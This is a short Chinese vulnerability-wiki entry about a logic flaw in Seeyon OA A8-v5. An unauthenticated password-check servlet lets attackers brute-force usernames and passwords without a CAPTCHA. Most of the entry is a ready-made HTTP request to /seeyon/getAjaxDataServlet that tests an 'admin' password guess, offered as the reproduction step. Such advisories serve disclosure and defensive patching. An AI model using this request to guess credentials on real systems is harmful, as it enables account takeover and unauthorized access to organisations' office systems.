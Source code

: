 致远OA A8-v5 无视验证码撞库
===========================

一、漏洞简介
------------

致远A8-V5在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需login页面进行密码尝试

二、漏洞影响
------------

致远OA A8-v5

三、复现过程
------------

POST穷举用户和密码代码如下

    GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

    Accept: */*

    Accept-Language: zh-cn

    Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

    requesttype: AJAX

    Content-Type: application/x-www-form-urlencoded

    Cookie: 

    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

    Host: www.0-sec.org

    DNT: 1

    Proxy-Connection: Keep-Alive

![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8-v5无视验证码撞库/media/rId24.shtml)
